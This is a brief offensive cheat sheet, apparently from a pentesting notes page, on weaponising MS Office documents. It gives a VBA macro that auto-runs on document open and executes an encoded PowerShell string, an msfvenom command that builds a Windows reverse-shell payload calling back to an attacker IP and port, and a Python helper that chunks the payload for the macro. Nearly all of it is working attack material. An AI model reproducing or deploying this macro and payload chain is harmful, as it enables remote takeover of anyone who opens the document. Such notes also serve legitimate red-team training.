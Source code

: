 # MS Office

### MS Word / Excel marco create micro

```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()
 Dim Str As String
{powershell payloads chopped}

 CreateObject("Wscript.Shell").Run Str
  
End Sub
```

{% hint style="info" %}
The macro needs to be in Project scope of the .doc
{% endhint %}

### Payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f
hta-psh -o evil.hta
#copy the powershell.exe -nop part

or

newpayloadgeneration.py
powershell -e ..
```

```
payload.py

str="powershell -e .."
n=50
for i in range(0,len(str),n):
    print("Str = str+" + '"' + str[i:i+n] +'"')


```


